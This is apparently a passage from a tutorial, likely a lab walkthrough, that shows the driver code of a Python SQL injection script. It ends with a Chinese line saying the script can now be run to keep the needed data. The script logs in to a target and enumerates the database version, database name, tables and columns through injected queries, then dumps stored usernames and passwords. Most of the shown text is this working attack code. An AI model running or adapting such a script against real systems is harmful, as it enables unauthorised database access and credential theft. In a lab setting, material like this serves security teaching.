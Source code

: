 ```
        .replace("</pre>", "")
    )
    return (
        beautified_query_result.splitlines()[1].split(":")[1]
        + " "
        + beautified_query_result.splitlines()[2].split(":")[1]
    )if __name__ == "__main__":session = login(login_url, 1)
    response = session.get(sqli_url)
    soup = BeautifulSoup(response.text, "html.parser")
    print("The database version is:")
    print(beautify_query_single(send_query(query_version, session)[0]))
    print()
    print("The database name is:")
    db_name = beautify_query_single(send_query(query_database, session)[0])
    print(db_name)
    print()
    print("The tables' names are:")
    for table in send_query(
        query_tables.format(db_name.encode("utf-8").hex()), session
    ):
        print(beautify_query_single(table))
    print()
    table_name = input("Type the table name you want\n")
    print("\nThe columns' names in users table are:")
    for column in send_query(
        query_users_cols.format(table_name.encode("utf-8").hex()), session
    ):
        print(beautify_query_single(column))
    print()
    username, password = input(
        "Type username and password column values with comma separator:\n"
    ).split(",", 1)
    print("The users' names and passwords in users table are:")
    for user in send_query(
        query_users_names.format(username.strip(), password.strip()), session
    ):
```

此时，我们可以运行脚本并保留我们需要的所有数据:
